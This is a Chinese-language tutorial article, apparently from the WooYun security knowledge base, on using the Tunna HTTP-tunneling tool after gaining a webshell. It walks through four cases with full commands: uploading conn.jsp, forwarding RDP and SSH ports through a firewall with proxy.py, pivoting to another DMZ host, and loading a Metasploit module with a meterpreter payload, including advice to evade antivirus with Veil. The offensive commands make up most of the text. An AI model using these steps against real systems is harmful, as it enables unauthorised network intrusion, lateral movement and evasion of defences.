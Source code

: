 # tunna 工具使用实例

2013/09/28 22:56 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章") | 占个座先 | 捐赠作者

### 原理:就是个 HTTP tunneling 工具

```
 +-------------------------------------------+                     +-------------------------------------------+
 | Local Host                                |                     | Remote Host                               |
 |-------------------------------------------|                     |-------------------------------------------|
 |   +----------+       +------------+       |   +-------------+   |   +------------+        +----------+      |
 |   |Client App|+----->|Local Proxy |<==========|  Firewall   |======>|  Webshell  |+------>|Server App|      |
 |   +----------+       +------------+       |   +-------------+   |   +------------+        +----------+      |
 +-------------------------------------------+                     +------------------------------------------ +

```

可以看出该工具先使用 proxy.py 监听本地一个端口,然后连接部署在远程 WEB 的 webshell,远端的 webshell 会把端口转发请求转发到本地或者本地内网远程的主机,从而实现 HTTP tunneling.这对于内网入侵来说,是很有用的一个工具.

该工具看起来是不是有似曾相识的感觉,恩.其实和 reduh 原理是一样的,不过 tunna 更稳定,速度更快.

下载地址是:[`www.secforce.com/media/tools/tunna_v0.1.zip`](http://www.secforce.com/media/tools/tunna_v0.1.zip)

下面讲解 4 个实例,就能掌握该工具使用方法了.

### 实例 1:

网站对外只开放了 80 端口,其他的端口都是关闭的,通过 CVE-2013-225 得到 JSP 的 WEBSHELL 后,上传 conn.jsp,做转发,实现连接本机的其他端口.

直接扫描发现 3389 是关闭的

```
mickey@pentest:~# nmap -sS -p3389 219.x.x.x

Starting Nmap 6.40 ( http://nmap.org ) at 2013-09-26 22:47 EDT
Nmap scan report for 219.x.x.x
Host is up (0.0088s latency).
PORT     STATE SERVICE
3389/tcp close 
```

通过 webshell 上传 conn.jsp 到主机上,本地开始连接

```
python proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -r 3389 -v 
```

参数含义如下:

```
-l 表示本地监听的端口
-r 远程要转发的端口
-v 详细模式 
```

然后本地执行

```
rdesktop 127.0.0.1:1234 
```

就可以连接到目标的 3389 了

![如图 1](img/img1_u161_jpg.jpg)

### 实例 2:

对于有些服务,比如 SSH,还需要添加-s 参数,才能保证连接的时候不会中断.

```
python proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -r 22 -v -s

ssh localhost -p 1234 
```

![enter image description here](img/img2_u4_jpg.jpg)

### 实例 3:

场景:已经得到 DMZ 区的一台主机的 JSPSHELL,该主机的内网 IP 是 172.16.100.20,通过查点,发现 DMZ 区还有其他的主机(172.16.100.20),并且开放了 3389,我们想利用 HTTP tunneling,连接到 172.16.100.20 的 3389,命令如下

```
python2.7 proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -a 172.16.100.20 -r 3389 
```

这里多了一个-a 参数,意义是要转发的 IP

### 实例 4:

对于喜欢 metasploit 的朋友,该工具也支持,不过如果对方有杀软的话,建议先用 veil 做好 meterpreter 的免杀.

首先把 tunna_exploit.rb 拷贝到 msf 的 modules/exploits/windows/misc 目录.

```
cp ~/tunna_exploit.rb /root/metasploit-framework/modules/exploits/windows/misc 
```

然后开始利用

```
msf > use exploit/windows/misc/tunna_exploit
msf exploit(tunna_exploit) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(tunna_exploit) > set RHOST 1.3.3.7  <-- 注意这里是指本地的公网 IP
RHOST => 1.3.3.7
msf exploit(tunna_exploit) > set TARGETURI http://219.x.x.x:8080/conn.jsp
TARGETURI => http://219.x.x.x:8080/conn.jsp
msf exploit(tunna_exploit) > set VERBOSE true
VERBOSE => true
msf exploit(tunna_exploit) > exploit -j 
```

tunna 除了支持 jsp 还支持以下环境和脚本

conn.jsp Tested on Apache Tomcat (windows + linux) conn.aspx Tested on IIS 6+8 (windows server 2003/2012) conn.php Tested on LAMP + XAMPP + IIS (windows + linux)

使用的时候需要注意:metasploit 里的脚本只对应 metasploit 使用.

版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [说说 RCE 那些事儿](http://drops.wooyun.org/tools/3786)
*   [charles 使用教程指南](http://drops.wooyun.org/tips/2423)
*   [Burp Suite 使用介绍（三）](http://drops.wooyun.org/tips/2247)
*   [Android UXSS 阶段性小结及自动化测试](http://drops.wooyun.org/tools/3186)
*   [使用 sqlmap 中 tamper 脚本绕过 waf](http://drops.wooyun.org/tools/4760)
*   [Burp Suite 使用介绍（二）](http://drops.wooyun.org/tools/1629)